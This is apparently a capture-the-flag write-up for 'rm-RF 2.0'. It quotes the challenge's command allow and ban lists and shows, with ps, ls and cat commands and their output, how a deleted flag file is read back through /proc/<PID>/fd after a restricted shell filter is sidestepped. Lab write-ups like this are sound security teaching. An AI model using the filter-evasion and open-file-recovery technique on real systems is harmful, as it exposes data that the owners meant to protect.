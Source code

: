 # Challenge name; rm-RF 2.0

### Author: Gourav Suram

### Desc

```
more like a shell

Netcat:
nc rmrf.ctf.teamquark.com 65322

For better experience:
rlwrap nc rmrf.ctf.teamquark.com 65322

```

# Writeup

```python

with open('./flag.txt', 'w') as flag:
    flag.write('quarkCTF{fake_flag_for_testing}')

flag = open('./flag.txt', 'r')

```

- It's creating a file called `flag.txt`
- Later it's reading the contents of flag and storing it in flag variable.


- The user can input commands but are filtered by the prgm on basis of : 

```python

def is_safe_command(cmd):
    allow = ['cat', 'ls', 'whoami', 'cd', 'ps', 'uname', 'date', 'wc']
    ban = ['rm', 'flag.txt', 'flag', 'chall.py', 'chall']
    for i in ban:
        if i in cmd:
            return False
    for i in allow:
        if (i in cmd):
            pattern = r'^[a-zA-Z0-9/. \-]+$'
            return bool(re.match(pattern, cmd))
    return False

```

- only commands under `allow` list can be executed.
- And regex of commands can only contain alpha numberic values with `. / -` in special characters
- And there's a ban list (ofc) which doesn't allow user to have those in their cmd.


- Following snippet tells us that server is deleting flag.txt if commands are executed on the shell

```python

    global count
    if line:
        count += 1
    if count > 1 and count < 3:
        #demnnnnn cmds are runninggggggggg on my shell
        os.system('rm ./flag.txt')

```

- hmmmmm, how to read flag.txt if it's getting deleted.
- As you know, `Everything in linux is a file`.
- This includes processes as well

#### Soln

- We can read the flag.txt because the `flag` variable inside the program has read it/load it.
- We just have to locate the process of the python program and read the files

- What does this mean?

```(gpt)

In Linux, /proc/<PID>/fd is a directory that contains symbolic links to the file descriptors opened by the process with the corresponding process ID (PID). Each entry in this directory represents a file descriptor (fd) of the process.

A file descriptor is a non-negative integer used to uniquely identify an open file within a process. It serves as a reference to a file or other input/output resource, such as a socket or a pipe.

```

- If a program opens a files, the data get's stored inside the /fd directory until the prgm exits.


#### Flag

```bash

user@rmRF$ ps
    PID TTY          TIME CMD
    193 ?        00:00:00 socat
    194 ?        00:00:00 python3
    196 ?        00:00:00 ps

```

- Yess there's our process id (194)
- If we list our fd

```bash

user@rmRF$ ls -la /proc/194/fd/
total 0
dr-x------. 2 ctf ctf  0 Feb 19 17:51 .
dr-xr-xr-x. 9 ctf ctf  0 Feb 19 17:51 ..
lrwx------. 1 ctf ctf 64 Feb 19 17:52 0 -> socket:[101506]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 1 -> socket:[101506]
l-wx------. 1 ctf ctf 64 Feb 19 17:52 2 -> pipe:[38355]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 3 -> socket:[101509]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 4 -> socket:[101510]
lr-x------. 1 ctf ctf 64 Feb 19 17:51 5 -> /home/ctf/challenge/flag.txt (deleted)
lr-x------. 1 ctf ctf 64 Feb 19 17:52 6 -> pipe:[101546]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 8 -> socket:[101507]

```

> lr-x------. 1 ctf ctf 64 Feb 19 17:51 5 -> /home/ctf/challenge/flag.txt (deleted)

- We can see our deleted file listed here.
- just cat it and grab the flag

```bash

user@rmRF$ cat /proc/194/fd/5
quarkCTF{D3lEt3D_fiL35_4r3_in-FD}

```
